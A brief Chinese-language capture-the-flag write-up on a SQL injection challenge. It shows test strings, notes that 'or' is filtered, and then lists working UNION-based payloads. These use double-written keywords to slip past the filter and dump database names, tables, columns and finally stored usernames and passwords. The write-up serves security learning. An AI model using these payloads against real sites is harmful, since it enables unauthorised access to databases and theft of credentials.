 这题其实很简单，但我想复杂了，

还是得按照`步骤`来测注入。

测试字符串

```
1' or 1=1
1' or 1=1 #
```

经过这一步就能发现`or`被过滤了，

就能考虑绕过了

```
双写绕过
url编码绕过
注释绕过
...
```

用双写绕过

```
1'  uunionnion selselectect 1,2,group_concat(schema_name) frfromom infoorrmation_schema.schemata#
1'  uunionnion selselectect 1,2,group_concat(table_name) frfromom infoorrmation_schema.tables wwherehere table_schema=database()#
1'  uunionnion selselectect 1,2,group_concat(column_name) frfromom infoorrmation_schema.columns wwherehere table_schema=database() aandnd table_name='b4bsql'
1'  uunionnion selselectect 1,username,passwoorrd ffromrom geek.b4bsql#
1'  uunionnion selselectect 1,2,group_concat(id,username,passwoorrd) ffromrom b4bsql#
```

 
